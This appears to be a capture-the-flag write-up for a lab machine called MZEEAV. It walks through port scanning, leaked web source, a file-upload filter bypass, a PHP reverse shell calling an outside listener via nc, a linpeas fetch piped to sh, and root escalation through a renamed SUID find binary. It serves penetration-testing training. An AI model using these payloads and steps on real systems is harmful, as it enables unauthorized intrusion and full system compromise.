

# MZEEAV f.k.a. CTF-200-02 (rough notes)

Initial port scan:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-02]
└─$ nmap -v -Pn -p- -T4 ctf-200-02                             
...

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Service version fingerprinting:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-02]
└─$ nmap -v -Pn -p 22,80 -A ctf-200-02
...

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: MZEE-AV - Check your files
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This one is interesting... we never get just one possible target (the http server)...

The webserver itself doesn't give anything away... just gives us "MZEE-AV 2022".



Enumerating the webserver for paths with `gobuster`:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-02]
└─$ gobuster dir -u http://ctf-200-02/ -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://ctf-200-02/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/upload               (Status: 301) [Size: 309] [--> http://ctf-200-02/upload/]
/backups              (Status: 301) [Size: 310] [--> http://ctf-200-02/backups/]
```

Still running, but checking those 2 out... the `/upload` path just serves the text "nothing to see here - try harder". The `/backups` path however, serves a directory with a zip file.

Inspecting the contents of the zip file, it is the entire `/var/www/html` contents, including the source code for this application.

Looking at the code it seems that all uploaded files are made available in the `/upload/$FILENAME` path.

Here's my first attempt at uploading a reverse shell and looking for it... the app changed the filename to `file.tmp` so I searched for it with that name:


The reverse shell should work, we just need to figure out a way to keep the `.php` file extension so that the server executes it when we navigate there...

Diving deeper into the webserver's source code, it seems the uploaded files will be renamed to `file.tmp` unless the file contains certain bytes...

```
/* Check MagicBytes MZ PEFILE 4D5A*/
$F=fopen($tmp_location,"r");
$magic=fread($F,2);
fclose($F);
$magicbytes = strtoupper(substr(bin2hex($magic),0,4)); 
error_log(print_r("Magicbytes:" . $magicbytes, TRUE));

/* if its not a PEFILE block it - str_contains onlz php 8*/
//if ( ! (str_contains($magicbytes, '4D5A'))) {
if ( strpos($magicbytes, '4D5A') === false ) {
	echo "Error no valid PEFILE\n";
	error_log(print_r("No valid PEFILE", TRUE));
	error_log(print_r("MagicBytes:" . $magicbytes, TRUE));
	exit ();
}

rename($tmp_location, $location);
```

The code is reading the first 2 bytes of the file, then converting the ASCII from binary to hex, then checking that the hex matches `4D5A`...

This matches the ASCII characters `MZ` (see [ASCII table](https://condor.depaul.edu/sjost/it236/documents/ascii.htm))... so if I understand correctly our file needs to start with the ASCII `MZ` in order to retain its original file name...

Let's put that to the test. I change my reverse shell from 

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.172 80 >/tmp/f");?>
```

to

```
MZ<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.172 80 >/tmp/f");?>
```

I set up my local listener on port 80 where we will catch a shell if this works.

I try uploading it again.

This time I notice right away we kept our filename, and when I manually navigate to `/upload/mz-rshell.php` the page hangs (which might mean our reverse shell is running).


I check my reverse shell and indeed, we are in:

```
┌──(kali㉿kali)-[~/Desktop/upload-me]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.33] 49888
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We find our first flag where we usually expect it (a user's home directory):

```
$ cd /home
$ ls
avuser
$ cd avuser
$ ls
local.txt
$ cat local.txt
53ace38835afa69a4a6ece4dca4405a7
```

We also learn about user `avuser`.

## Privilege Escalation

Time for LinPEAS!

Nothing resolved in this machine, so I download it to Kali and serve it over http in order to fetch it from the victim host.

```
www-data@mzeeav:/etc$ curl -L http://192.168.45.172:22/linpeas.sh | sh
```

That works. From the results the only promising finding really is an uknown SUID binary.

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strings Not Found
strace Not Found
---s--s--x 1 root root 304K Nov 14 00:04 /opt/fileS (Unknown SUID binary!)
```

I run that binary with the `--help` flag and I get the following help menu:

```
www-data@mzeeav:/opt$ ./fileS --help
./fileS --help
Usage: ./fileS [-H] [-L] [-P] [-Olevel] [-D debugopts] [path...] [expression]

default path is the current directory; default expression is -print
expression may consist of: operators, options, tests, and actions:
operators (decreasing precedence; -and is implicit where no others are given):
      ( EXPR )   ! EXPR   -not EXPR   EXPR1 -a EXPR2   EXPR1 -and EXPR2
      EXPR1 -o EXPR2   EXPR1 -or EXPR2   EXPR1 , EXPR2
positional options (always true): -daystart -follow -regextype

normal options (always true, specified before other expressions):
      -depth --help -maxdepth LEVELS -mindepth LEVELS -mount -noleaf
      --version -xdev -ignore_readdir_race -noignore_readdir_race
tests (N can be +N or -N or N): -amin N -anewer FILE -atime N -cmin N
      -cnewer FILE -ctime N -empty -false -fstype TYPE -gid N -group NAME
      -ilname PATTERN -iname PATTERN -inum N -iwholename PATTERN -iregex PATTERN
      -links N -lname PATTERN -mmin N -mtime N -name PATTERN -newer FILE
      -nouser -nogroup -path PATTERN -perm [-/]MODE -regex PATTERN
      -readable -writable -executable
      -wholename PATTERN -size N[bcwkMG] -true -type [bcdpflsD] -uid N
      -used N -user NAME -xtype [bcdpfls]      -context CONTEXT

actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print 
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;

Valid arguments for -D:
exec, opt, rates, search, stat, time, tree, all, help
Use '-D help' for a description of the options, or see find(1)

Please see also the documentation at http://www.gnu.org/software/findutils/.
You can report (and track progress on fixing) bugs in the "./fileS"
program via the GNU findutils bug-reporting page at
https://savannah.gnu.org/bugs/?group=findutils or, if
you have no web access, by sending email to <bug-findutils@gnu.org>.
```

Following the [link in the help menu](https://www.gnu.org/software/findutils/) this looks like just a rename of the usual `find` binary.

Looking up [`find` in GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) gives us a way to get a shell as root:

```
./find . -exec /bin/sh -p \; -quit
```

So we can probably do it with

```
./fileS . -exec /bin/sh -p \; -quit
```

Let's try:

```
www-data@mzeeav:/opt$ ./fileS . -exec /bin/sh -p \; -quit
./fileS . -exec /bin/sh -p \; -quit
# whoami
whoami
root
```

Success!

We find our proof in the usual location:

```
# cat /root/proof.txt
cat /root/proof.txt
2805186e1547d425c906192189086665
```
